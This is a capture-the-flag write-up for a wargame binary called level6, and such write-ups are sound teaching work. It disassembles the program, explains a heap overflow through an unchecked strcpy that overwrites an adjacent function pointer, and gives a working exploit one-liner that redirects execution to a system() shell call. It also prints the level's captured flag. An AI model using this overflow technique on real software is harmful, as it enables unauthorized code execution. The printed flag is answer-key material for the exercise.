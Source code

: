 level6
======

Dissassembly
------------

To dissassemble the executable we can use objdump.
```sh
EXECUTABLE=./level6

objdump -M intel -d "$EXECUTABLE"
```

The main function looks like this:
```nasm
0804847c <main>:
 804847c:	55                   	push   ebp
 804847d:	89 e5                	mov    ebp,esp
 804847f:	83 e4 f0             	and    esp,0xfffffff0
 8048482:	83 ec 20             	sub    esp,0x20
 8048485:	c7 04 24 40 00 00 00 	mov    DWORD PTR [esp],0x40
 804848c:	e8 bf fe ff ff       	call   8048350 <malloc@plt>
 8048491:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax
 8048495:	c7 04 24 04 00 00 00 	mov    DWORD PTR [esp],0x4
 804849c:	e8 af fe ff ff       	call   8048350 <malloc@plt>
 80484a1:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 80484a5:	ba 68 84 04 08       	mov    edx,0x8048468
 80484aa:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484ae:	89 10                	mov    DWORD PTR [eax],edx
 80484b0:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 80484b3:	83 c0 04             	add    eax,0x4
 80484b6:	8b 00                	mov    eax,DWORD PTR [eax]
 80484b8:	89 c2                	mov    edx,eax
 80484ba:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 80484be:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80484c2:	89 04 24             	mov    DWORD PTR [esp],eax
 80484c5:	e8 76 fe ff ff       	call   8048340 <strcpy@plt>
 80484ca:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484ce:	8b 00                	mov    eax,DWORD PTR [eax]
 80484d0:	ff d0                	call   eax
 80484d2:	c9                   	leave
 80484d3:	c3                   	ret
```

We can see two calls to malloc.
One is of size 0x40 and will contain a copy of the first argument:
```nasm
...
 8048485:   c7 04 24 40 00 00 00    mov    DWORD PTR [esp],0x40
 804848c:   e8 bf fe ff ff          call   8048350 <malloc@plt>
 8048491:   89 44 24 1c             mov    DWORD PTR [esp+0x1c],eax
...
 80484b0:   8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 80484b3:   83 c0 04                add    eax,0x4
 80484b6:   8b 00                   mov    eax,DWORD PTR [eax]
 80484b8:   89 c2                   mov    edx,eax
 80484ba:   8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 80484be:   89 54 24 04             mov    DWORD PTR [esp+0x4],edx
 80484c2:   89 04 24                mov    DWORD PTR [esp],eax
 80484c5:   e8 76 fe ff ff          call   8048340 <strcpy@plt>
...
```

The second one is of size 0x04 and will contain a function pointer that will be executed.
```nasm
 8048495:   c7 04 24 04 00 00 00    mov    DWORD PTR [esp],0x4
 804849c:   e8 af fe ff ff          call   8048350 <malloc@plt>
 80484a1:   89 44 24 18             mov    DWORD PTR [esp+0x18],eax
...
 80484a5:   ba 68 84 04 08          mov    edx,0x8048468
 80484aa:   8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 80484ae:   89 10                   mov    DWORD PTR [eax],edx
...
 80484ca:   8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 80484ce:   8b 00                   mov    eax,DWORD PTR [eax]
 80484d0:   ff d0                   call   eax
```

This is the function located at the address 0x8048468:
```nasm
08048468 <m>:
 8048468:	55                   	push   ebp
 8048469:	89 e5                	mov    ebp,esp
 804846b:	83 ec 18             	sub    esp,0x18
 804846e:	c7 04 24 d1 85 04 08 	mov    DWORD PTR [esp],0x80485d1
 8048475:	e8 e6 fe ff ff       	call   8048360 <puts@plt>
 804847a:	c9                   	leave
 804847b:	c3                   	ret
```

There also is another function n, which uses a system call to run a shell:
```nasm
08048454 <n>:
 8048454:	55                   	push   ebp
 8048455:	89 e5                	mov    ebp,esp
 8048457:	83 ec 18             	sub    esp,0x18
 804845a:	c7 04 24 b0 85 04 08 	mov    DWORD PTR [esp],0x80485b0
 8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
 8048466:	c9                   	leave
 8048467:	c3                   	ret
```

Exploitation
------------

```sh
man strcpy
```

```
SECURITY CONSIDERATIONS
     The strcpy() function is easily misused in a manner which enables malicious users to arbitrarily change a running program's functionality
     through a buffer overflow attack.
```

Because strcpy is unsafe and there is no length check on the source string, we can overflow the destination and reach the next allocation, which happens to be the function pointer.

Through trial and error adding multiple of 4 to the destination buffer's size 64, we can overwrite the function pointer.
```sh
./level6 "$(printf '%.0sA' {1..72}; printf '%s' $'\x54\x84\x04\x08')"
```
```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
